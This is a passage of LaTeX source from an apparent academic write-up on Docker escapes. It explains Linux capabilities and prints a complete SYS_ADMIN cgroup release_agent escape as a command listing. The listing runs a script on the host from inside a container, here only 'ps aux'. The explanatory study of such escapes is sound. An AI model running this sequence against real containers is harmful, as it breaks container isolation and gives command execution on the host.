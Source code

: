 This proof of concept creates a new \lstinline{cgroup}, sets a \lstinline{release_agent} and releases it. In this case the \lstinline{release_agent} runs \lstinline{ps} and writes the output to the root of the container.


\subsection{Capabilities}
To perform a privileged Linux kernel action, the process needs the relevant \lstinline{capability}. \lstinline{capabilities}\footnote{See the \lstinline{man page} of \lstinline{capbilities}}
 are a Linux feature that allow specific privileged actions (e.g.\ sending raw packets). A process running as \lstinline{uid} 0(\lstinline{root}) has all capabilities.
 Processes in a Docker container are given minimum capabilities, but if needed it is possible to add extra capabilities using the \lstinline{--cap-add} argument. It is also possible to drop unnecessary capabilities using the \lstinline{--cap-drop}. In privileged mode, the container has all capabilities.

\hfill

Giving containers extra capabilities, gives the container permission to perform certain actions. Some of these actions allow Docker escapes.

\subsubsection{\texorpdfstring{\lstinline{SYS_ADMIN}}{SYS_ADMIN}}
The Docker escape by Felix Wilhelm\cite{Felix-Wilhem-Tweet} needs to be run in privileged mode to work, but it can be rewritten to only need the permission to run \lstinline{mount}\cite{TrailOfBits-Docker-Escape}, which is granted by the \lstinline{SYS_ADMIN} capability.

\begin{lstlisting}[caption={Docker escape using \lstinline{SYS_ADMIN}},captionpos=b]
(host)$ docker run --rm -it --cap-add=SYS_ADMIN --security-opt apparmor=unconfined ubuntu /bin/bash
(cont)# mkdir /tmp/cgrp
(cont)# mount -t cgroup -o rdma cgroup /tmp/cgrp
(cont)# mkdir /tmp/cgrp/x
(cont)# echo 1 > /tmp/cgrp/x/notify_on_release
(cont)# host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
(cont)# echo "$host_path/cmd" > /tmp/cgrp/release_agent
(cont)# echo '#!/bin/sh' > /cmd
(cont)# echo "ps aux > $host_path/output" >> /cmd
(cont)# chmod a+x /cmd
(cont)# sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
(cont)# cat /output
\end{lstlisting}

